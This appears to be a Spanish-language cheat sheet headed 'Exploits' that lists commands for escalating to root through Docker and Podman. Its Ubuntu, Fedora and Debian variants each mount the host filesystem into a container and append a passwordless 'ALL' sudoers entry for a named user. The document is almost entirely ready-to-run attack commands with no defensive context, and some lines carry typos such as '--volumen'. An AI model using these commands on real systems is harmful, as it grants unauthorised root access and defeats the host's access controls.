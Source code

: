 Exploits

## Docker Elevacion de privilegios
[Link sudoers](https://www.tecmint.com/run-sudo-command-without-password-linux/)

### Docker Elevacion de privilegios (ubuntu)

docker run -it -v /:/host bash
docker run --interactive --tty --volumen /:/host bash

# echo "bett0 ALL=(All) NOPASSWD:ALL" > /host/etc/sudoers.d/test

$sudo bash
$sudo -i


### Docker Elevacion de privilegios (-Fedora)
podman run --interactive --tty --volumen /:/host --privileged bash
# echo "bett0 ALL=(All) NOPASSWD:ALL" >> /host/etc/sudoers.d/test

#Docker Elevacion de privilegios (Debian)
FROM debian:wheezy
ENV WORKDIR /privesc
RUN mkdir -p $WORKDIR
VOLUME [ $WORKDIR ]
WORKDIR $WORKDIR

docker build -t maquina .

docker run -v /:/privesc -it maquina /bin/bash

# cat /privesc/etc/sudoers

# echo "bett0 ALL=(ALL) NOPASSWD: ALL" >> /privesc/etc/sudoers

$sudo bash
$sudo -i

#Docker Elevacion de privilegios (Debian)
docker run -it --rm -v /:/mnt ubuntu:16.04
# cat /mnt/etc/sudoers
# echo "bett0 ALL=(ALL) NOPASSWD: ALL" >> /mnt/etc/sudoers

$sudo bash
$sudo -i
